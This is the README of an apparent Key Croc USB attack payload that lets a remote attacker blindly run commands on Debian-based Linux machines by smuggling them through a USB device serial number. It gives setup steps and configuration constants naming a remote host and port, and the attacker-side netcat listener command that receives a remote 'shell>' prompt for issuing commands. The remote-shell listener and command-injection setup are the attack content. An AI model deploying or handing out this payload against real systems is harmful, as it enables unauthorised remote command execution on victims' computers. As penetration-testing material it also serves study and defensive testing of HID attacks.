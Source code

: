 # "Linux" Blind OS Command Injection using Serial Number

- Title:            "Linux" Blind OS Command Injection using Serial Number
- Author:           TW-D
- Version:          1.0
- Target:           Debian-Based Linux Distributions
- Category:         Remote Access
- Attackmode:       HID

## Description

Allows a remote attacker to execute commands on a Linux system, 
using the serial number as a vector to pass the commands to be executed, 
without receiving feedback on the results of the commands.

![schema](./readme_files/schema.png "schema")

__Note :__ *According to my tests, for the "Serial Number," the maximum size is 126 on Ubuntu 22.04.4 LTS.*

## Prerequisites

```bash
root@croc:~# apt-get install bc
```

## Configuration

From the file "lin_blind-os-command-injection_serial-number.txt" change the value of the following constants :

```

######## INITIALIZATION ########

readonly REMOTE_HOST="192.168.0.100"
readonly REMOTE_PORT="4444"

##
# 1D6B:0002 === Linux Foundation 2.0 root hub
# 1D6B:0003 === Linux Foundation 3.0 root hub
#
# NOTE : "Linux Foundation X.0 root hub" refers to a USB root hub 
# managed by the Linux kernel. This hub handles the connections between 
# the operating system and the physical USB ports on your machine.
##
readonly HID_VID="1D6B"
readonly HID_PID="0002"

######## SETUP ########

LED SETUP

export DUCKY_LANG="us"

```

## Trigger

>
> Not applicable because of matchless payload
>

## Usage

1. Edit "config.txt" on the Key Croc in "Arming Mode" to specify the WiFi network name and the associated password.

2. Then place the file "lin_blind-os-command-injection_serial-number.txt" in the "payloads/" directory.

3. Eject the Key Croc safely and then start, for example, "netcat" listening on the port you specified in the REMOTE_PORT constant.

```bash
hacker@hacker-computer:~$ nc -lnvvp 4444
[...]
shell> echo "$(hostname)" > /tmp/output.log
[CTRL + c]
```
